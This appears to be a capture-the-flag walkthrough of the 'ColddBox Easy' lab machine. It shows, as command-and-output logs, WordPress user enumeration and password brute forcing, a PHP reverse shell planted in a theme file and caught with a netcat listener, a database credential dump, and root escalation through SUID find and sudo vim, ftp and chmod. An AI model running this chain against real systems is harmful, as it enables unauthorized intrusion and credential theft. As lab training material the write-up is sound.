




$ nmap -T4 -v -A 10.10.214.134 Nmap scan report for 10.10.214.134 Host is up (0.16s latency). Not shown: 999 closed ports PORT STATE SERVICE VERSION 80/tcp open http Apache httpd 2.4.18 ((Ubuntu)) |_http-generator: WordPress 4.1.31 | http-methods: |_ Supported Methods: GET HEAD POST OPTIONS |_http-server-header: Apache/2.4.18 (Ubuntu) |_http-title: ColddBox | One more machine
Nmap found only one port open i.e port 80.

So it is a WordPress site. Let's enumerate more.
$ gobuster dir -u http://10.10.214.134 -w /opt/dirbuster/directory-list-2.3-medium.txt -t 20
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.10.214.134
[+] Method: GET
[+] Threads: 20
[+] Wordlist: /opt/dirbuster/directory-list-2.3-medium.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.1.0
[+] Timeout: 10s
===============================================================
2021/01/07 12:58:08 Starting gobuster in directory enumeration mode
===============================================================
/wp-content (Status: 301)
/wp-includes (Status: 301)
/wp-admin (Status: 301)
/hidden (Status: 301)
Progress: 15900 / 220561 (7.21%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2021/01/07 13:00:31 Finished
===============================================================
Bruteforcing directories with gobuster, finds a directory hidden.
Navigating to that directory in the browser gives a hint on possible usernames.
$ wpscan --no-banner --url http://10.10.214.134 -e u [+] URL: http://10.10.214.134/ [10.10.214.134] --snip-- [+] WordPress theme in use: twentyfifteen | Location: http://10.10.214.134/wp-content/themes/twentyfifteen/ | Last Updated: 2020-12-09T00:00:00.000Z | Readme: http://10.10.214.134/wp-content/themes/twentyfifteen/readme.txt | [!] The version is out of date, the latest version is 2.8 | Style URL: http://10.10.214.134/wp-content/themes/twentyfifteen/style.css?ver=4.1.31 | Style Name: Twenty Fifteen | Style URI: https://wordpress.org/themes/twentyfifteen | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st... | Author: the WordPress team | Author URI: https://wordpress.org/ | | Found By: Css Style In Homepage (Passive Detection) | | Version: 1.0 (80% confidence) | Found By: Style (Passive Detection) | - http://10.10.214.134/wp-content/themes/twentyfifteen/style.css?ver=4.1.31, Match: 'Version: 1.0' [+] Enumerating Users (via Passive and Aggressive Methods) --snip-- [i] User(s) Identified: [+] the cold in person | Found By: Rss Generator (Passive Detection) [+] hugo | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) | Confirmed By: Login Error Messages (Aggressive Detection) [+] c0ldd | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) | Confirmed By: Login Error Messages (Aggressive Detection) [+] philip | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection) | Confirmed By: Login Error Messages (Aggressive Detection)
It's long output from wpscan but there are two important things to observe, the theme used and the users identified.
If you google for twentyfifteen exploit you get a XSS Vulnerability. This doesn't help.
Let's try to bruteforce the wp-login using the usernames we found.
$ wpscan --no-banner --url http://10.10.214.134 --usernames hugo,c0ldd,philip --passwords /opt/rockyou.txt --snip-- Trying hugo / matthew Time: 00:00:16 <> (225 / 43033176) 0.00% ETA: ?? Trying c0ldd / robert Time: 00:00:16 <> (229 / 43033176) 0.00% ETA: ?? Trying philip / robert Time: 00:00:17 <> (230 / 43033176) 0.00% ETA: ? Trying hugo / forever Time: 00:00:17 <> (234 / 43033176) 0.00% ETA: ?? Trying c0ldd / forever Time: 00:00:17 <> (235 / 43033176) 0.00% ETA: ? --snip-- [!] Valid Combinations Found: | Username: [Redacted], Password: [Redacted]
Now we have the credentials to login to admin panel, let's login.
After logging in go to theme-editor and let's change the 404.php with a php-reverse-shell.

Now start a netcat listener on the attacker machine.
To execute the reverse shell navigate to http://MACHINE-IP/wp-content/themes/twentyfifteen/404.php

Awesome, we pop a shell as www-data. Let's upgrade the shell to more interactive one.
$ nc -lvnp 1234
Connection from 10.10.214.134:41398
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
10:04:56 up 1:39, 0 users, load average: 0.00, 0.00, 0.00
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ColddBox-Easy:/$ ^Z
[1] + 6844 suspended nc -lvnp 1234
$ stty raw -echo; fg
[1] + 6844 continued nc -lvnp 1234
export TERM=xterm
www-data@ColddBox-Easy:/$
Now we get a fully interactive shell. Let's enumerate the directories, only wp-config.php looks interesting.
Let's look for files with SUID bit set.
www-data@ColddBox-Easy:/$ find / -type f -perm -4000 2>/dev/null /bin/su /bin/ping6 /bin/ping /bin/fusermount /bin/umount /bin/mount /usr/bin/chsh /usr/bin/gpasswd /usr/bin/pkexec /usr/bin/find <<------ /usr/bin/sudo /usr/bin/newgidmap /usr/bin/newgrp --snip--
Okay, normally we won't find find to be set with SUID. Let's go to GTFOBins and search for find.

www-data@ColddBox-Easy:/$ find . -exec /bin/sh -p \; -quit # id uid=33(www-data) gid=33(www-data) euid=0(root) groups=33(www-data) #
Now we are root.
Let's check the wp-cofig.php file.
www-data@ColddBox-Easy:/var/www/html$ ls
hidden wp-blog-header.php wp-includes wp-signup.php
index.php wp-comments-post.php wp-links-opml.php wp-trackback.php
license.txt wp-config-sample.php wp-load.php xmlrpc.php
readme.html wp-config.php wp-login.php
wp-activate.php wp-content wp-mail.php
wp-admin wp-cron.php wp-settings.php
www-data@ColddBox-Easy:/var/www/html$ cat wp-config.php
--snip--
define('DB_NAME', 'colddbox');
/** MySQL database username */
define('DB_USER', 'c0ldd');
/** MySQL database password */
define('DB_PASSWORD', '[Redacted]');
/** MySQL hostname */
define('DB_HOST', 'localhost');
--snip--
We get MySQL database password for the user c0ldd. Let's dump the database.
www-data@ColddBox-Easy:/$ mysql -u c0ldd -p Enter password: --snip-- MariaDB [colddbox]> select * from wp_users; +----+------------+------------------------------------+---------------+----------------------+----------+---------------------+---------------------+-------------+--------------------+ | ID | user_login | user_pass | user_nicename | user_email | user_url | user_registered | user_activation_key | user_status | display_name | +----+------------+------------------------------------+---------------+----------------------+----------+---------------------+---------------------+-------------+--------------------+ | 1 | c0ldd | $P$BJs9aAEh2[Redacted] | c0ldd | c0ldd@localhost.com | | 2020-09-24 15:06:57 | | 0 | the cold in person | | 2 | hugo | $P$B2512D1AB[Redacted] | hugo | hugo@localhost.com | | 2020-09-24 15:48:13 | | 0 | hugo | | 4 | philip | $P$BXZ9bXCbA[Redacted] | philip | philip@localhost.com | | 2020-10-19 17:38:25 | | 0 | philip | +----+------------+------------------------------------+---------------+----------------------+----------+---------------------+---------------------+-------------+--------------------+ 3 rows in set (0.00 sec)
Let's try to use the password we got from the source code to change to user c0ldd
www-data@ColddBox-Easy:/$ su c0ldd Password: c0ldd@ColddBox-Easy:$ id uid=1000(c0ldd) gid=1000(c0ldd) grupos=1000(c0ldd),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare) c0ldd@ColddBox-Easy:~$
We now own user c0ldd, also note that user c0ldd is in the group lxd. This can be used to escalate privilage as root,
lxd/lxc Group - Privilege Escalation
Let's list all the commans that we can execute as sudo.
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd:
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
(root) /usr/bin/vim
(root) /bin/chmod
(root) /usr/bin/ftp
As the room description says we can escalate privilage in multiple ways. Let's look for all three commans in GTFOBins.
All three can be exploited. That's great for us.
c0ldd@ColddBox-Easy:~$ sudo ftp ftp> !/bin/sh # id uid=0(root) gid=0(root) grupos=0(root)
c0ldd@ColddBox-Easy:~$ sudo vim -c ':!/bin/sh' # id uid=0(root) gid=0(root) grupos=0(root)
c0ldd@ColddBox-Easy:~$ sudo chmod 4777 /bin/bash c0ldd@ColddBox-Easy:~$ ls -l /bin/bash -rwsrwxrwx 1 root root 1037528 jul 12 2019 /bin/bash c0ldd@ColddBox-Easy:~$ bash -p bash-4.3# id uid=1000(c0ldd) gid=1000(c0ldd) euid=0(root) grupos=1000(c0ldd),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
These are all the methods I tried, let me know if there are more ways other than these for privilage escalation. My twitter account @im_greej